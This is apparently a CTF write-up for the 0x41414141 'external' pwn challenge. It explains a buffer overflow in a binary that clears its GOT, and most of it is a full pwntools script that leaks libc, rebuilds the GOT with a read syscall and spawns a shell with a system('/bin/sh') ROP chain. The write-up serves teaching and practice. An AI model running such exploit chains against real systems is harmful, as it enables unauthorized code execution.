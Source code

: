## 0x41414141 CTF: external [pwn]

##### *tl;dr: fix the GOT then perform the usual ropchain*
#### I got stuck on this during the duration of the ctf and spent the last hour analyzing the exploit from team [5h4d0wb10k3r](https://nave1337.herokuapp.com/index.html#os2021_external) which I found to be more informative and intended way of solving the challenge. During the ctf, I was only able to get a leak with the pointer to IO_STDOUT stored in the .bss section but couldn't achieve a stage 2 rop after that.

#### The vulnerability for the challenge was a simple buffer overflow. But it's not so simple as the GOT table gets zeroed out and we can't use the functions (read, memset, puts, etc) anymore after. First step we need to do is get a libc leak using the write syscall stored in the binary, then perform a read syscall. The problem is, we don't have any way to set the rax register. Here is where a function gadget in init_proc comes to play; basically it moves the __gmon_start__ pointer into rax upon startup but since __gmon_start__ isn't used, the value passed into rax is 0. 

#### We then set the global offset table (static address) as the receiving buffer. Since we already have a libc leak earlier, we can just calculate the offsets and place their computed libc addresses into the GOT (which needs to be in order). After we reconstruct the global offset table, we loop back to main then repeat the overflow steps to perform a system('/bin/sh') ropchain.

```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
binary = ELF('./external', checksec = False)
#libc = ELF('./libc-2.28.so', checksec = False)
libc = ELF('./libc.so.6', checksec = False) #: USING LOCAL LIBC SINCE I'M TESTING LOCALLY

p = process('./external', env = {'LD_PRELOAD' : libc.path})
#p = remote("161.97.176.150", 9999)

#: GDB SETTINGS
breakpoints = ['break *main', 'break *clear_got', 'break *write_syscall']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION FUNCTIONS
syscall = 0x0000000000401283
pop_rsi_r15 = 0x00000000004012f1
pop_rdi = 0x00000000004012f3
bss = 0x404060
ret = 0x40101a
init_proc = 0x401008 #: USED TO SET RAX TO 0 SINCE _gmon_start ISNT USED

#: PWN THY VULNS
print(p.recvuntil('> '))

exploit = cyclic(88)
exploit += p64(ret)
exploit += p64(pop_rsi_r15)
exploit += p64(binary.got['__libc_start_main'])
exploit += 'ignoreme'
exploit += p64(pop_rdi)
exploit += p64(0x1)
exploit += p64(binary.symbols['write_syscall'])
exploit += p64(init_proc) #: READ SYSCALL
exploit += p64(0x1337)
exploit += p64(pop_rdi)
exploit += p64(0x0)
exploit += p64(pop_rsi_r15)
exploit += p64(binary.got['puts']) #: STORES THE NEXT PAYLOAD INTO THE GOT
exploit += 'ignoreme'
exploit += p64(syscall)
exploit += p64(binary.symbols['main']) #: RETURNS TO MAIN AFTER THE GOT TABLE HAS BEEN RESTORED
p.sendline(exploit)

#: get libc leak
libc_main = u64(p.recv(8))
libc_base = libc_main - libc.symbols['__libc_start_main']

log.info(hex(libc_main))
log.info(hex(libc_base))
print(p.recv(0x30))

#: RESTORE GLOBAL OFFSET TABLE
got_entries = ['puts', 'setvbuf', 'printf', 'memset', 'alarm', 'read', 'signal']
exploit = ''.join([p64(libc_base + libc.symbols[entry]) for entry in got_entries])
p.sendline(exploit)

#: FINAL PAYLOAD
exploit = cyclic(87)
exploit += p64(ret) #: PREVENT THE MOVAPS ISSUE
exploit += p64(pop_rdi)
exploit += p64(libc_base + libc.search('/bin/sh').next())
exploit += p64(libc_base + libc.symbols['system'])

p.sendline(exploit)
p.interactive()
```

![](external_shell.png)
